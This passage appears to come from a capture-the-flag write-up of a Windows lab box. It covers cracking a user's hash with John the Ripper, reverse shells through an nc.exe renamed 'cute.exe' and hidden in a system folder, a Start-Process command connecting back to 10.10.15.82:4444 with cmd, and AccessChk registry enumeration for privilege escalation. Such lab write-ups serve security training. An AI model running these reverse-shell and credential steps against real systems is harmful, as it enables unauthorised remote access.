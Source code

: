 {% include image.html image_alt="90b5db2d.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/90b5db2d.png" %}

What do we have here? Hector's password hash!

### John the Ripper

Armed with Hector's password hash, let's show John the Ripper some :heart:.

{% include image.html image_alt="0d976e8b.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/0d976e8b.png" %}

Hector's password is `l33th4x0rhector`.

### PowerShell Remoting / WinRM

Now that we have Hector's password, we can proceed to log in to Hector's account via PowerShell Remoting. But first, we need to spawn a PowerShell. To do that, we can use `nc.exe` to spawn another reverse shell and enter into PowerShell from there.

{% include image.html image_alt="c27079de.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/c27079de.png" %}

The hostname is Fidelity by the way. That's the only plot twist.

{% include image.html image_alt="ff4168b6.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/ff4168b6.png" %}

With that, we can execute Start-Process to call upon our `nc.exe` to run the third reverse shell. This time as Hector. :wink:

```
> Start-Process -FilePath \windows\system32\spool\drivers\color\cute.exe -ArgumentList "10.10.15.82 4444 -e cmd" -NoNewWindow
```

### Getting `user.txt`

The file `user.txt` is at Hector's Desktop. No surprise there.

{% include image.html image_alt="c6489ffc.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/c6489ffc.png" %}

## Privilege Escalation

During enumeration of Hector's account, I notice that Hector is able to do something special with one of the Registry keys.

{% include image.html image_alt="8b8970c1.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/8b8970c1.png" %}

I generated the above with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from Microsoft SysInternals like so.

```
> accesschk.exe -klr hklm\system\currentcontrolset
```
